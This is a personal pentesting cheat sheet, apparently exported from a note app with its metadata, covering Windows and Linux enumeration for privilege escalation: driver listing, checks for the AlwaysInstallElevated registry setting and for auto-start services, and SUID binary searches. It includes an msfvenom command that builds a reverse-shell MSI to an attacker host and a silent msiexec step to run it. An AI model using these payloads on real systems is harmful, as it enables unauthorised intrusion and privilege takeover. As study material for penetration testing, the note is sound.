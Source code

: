 Linux

> ls /etc/fstab

# Device Drivers and Kernel Modules

Windows

> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

(using Powershell)

> Get-WmiObject Win32\_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$\_.DeviceName -like "\*VMware\*"}

Linux

> lsmod
> 
> \# To get more info on the device
> 
> /sbin/modinfo &lt;device&gt;

# Find Binaries that AutoElevate

Windows (Use Registry query)

> reg query HKEY\_CURRENT\_USER\\Software\\Policies\\Microsoft\\Windows\\Installer
> 
> reg query HKEY\_LOCAL\_MACHINE\\Software\\Policies\\Microsoft\\Windows\\Installer
> 
> \# If above is true, Craft the MSI Installer
> 
> \# below is for general search of autoelevate privileges in Windows Services / binaries
> 
> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\\Windows"
> 
> \# or use signcheck.exe
> 
> sigcheck.exe -accepteula -a -m &lt;binary&gt;

If "AlwaysInstallElevated" is ON, we can craft a MSI Installer, and run it to elevate our privileges

> msfvenom -p windows/shell\_reverse\_tcp LHOST=10.x.x.x LPORT=4444 –f msi > install.msi
> 
> C:> msiexec /quiet /qn /i install.msi

Linux

> find / -perm -u=s -type f 2>/dev/null

If SUID bit is set, we can use that binary to execute with system privilege

id: 9cba713a28134add92f0d4ead6bab358
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2022-01-16T13:39:42.003Z
updated_time: 2022-05-19T08:58:47.286Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0